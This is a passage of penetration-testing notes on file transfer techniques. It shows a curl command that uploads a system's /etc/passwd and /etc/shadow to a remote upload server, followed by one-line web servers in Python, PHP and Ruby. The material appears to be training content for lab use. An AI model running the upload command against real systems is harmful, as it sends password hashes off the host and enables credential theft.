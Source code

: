 ```bash
  # Upload multiple files using the uploadserver.
  curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

We used the option `--insecure` because we used a self-signed certificate that we trust.

## Alternative Web File Transfer Method

### Linux - Creating a Web Server with Python3

```bash
  python3 -m http.server
  # Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### Linux - Creating a Web Server with Python2.7
```bash
  python2.7 -m SimpleHTTPServer
  # Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### Linux - Creating a Web Server with PHP

```bash
  php -S 0.0.0.0:8000
  # [Fri May 20 08:16:47 2022] PHP 7.4.28 Development Server (http://0.0.0.0:8000) started
```

### Linux - Creating a Web Server with Ruby

```bash
  ruby -run -ehttpd . -p8000
```